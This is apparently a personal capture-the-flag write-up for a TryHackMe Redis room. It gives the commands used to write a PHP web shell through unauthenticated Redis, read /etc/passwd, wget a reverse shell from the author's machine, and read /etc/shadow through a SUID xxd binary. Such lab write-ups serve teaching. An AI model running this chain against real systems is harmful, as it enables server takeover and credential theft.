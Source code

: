 #redis #xxd

https://tryhackme.com/r/room/res

Resources
[Medium article on redis](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)

---
#### Nmap
![[Screenshot_2024-06-08_15-55-09.png]]

I connected to redis with
```shell
redis-cli -h 10.10.123.179
```

Redis uses a variable named `dir` to "navigate" in the filesystem, I can get my current `dir` with the following command:
```shell
config get dir
```
Then I can change `dir`'s location with
```shell
config set dir /var/www/html
```
Then I can create files and write some php in it to setup a LFI
```shell
config set dbfilename lfi.php

set test '<?php system($_GET["cmd"]); ?>'

save
```

Then I get my `LFI` on
```text
http://10.10.123.179/lfi.php?cmd=cat /etc/passwd
```

With this, I got the `vianka` username and his flag

I finally got a reverse shell by putting the monkey's on a file on my pc, then serve it with python and download it throught rce
```text
http://10.10.123.179/lfi.php?cmd=wget http://10.14.79.56:5050/monkey.php
```

After struggling, (maybe for too long?), I decided to use linpeas.sh to enumerate the target and it gave me the SUID on `xxd`

```shell
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
For `vianka`'s password and
```shell
LFILE=/root/root.txt
xxd "$LFILE" | xxd -r
```
For the root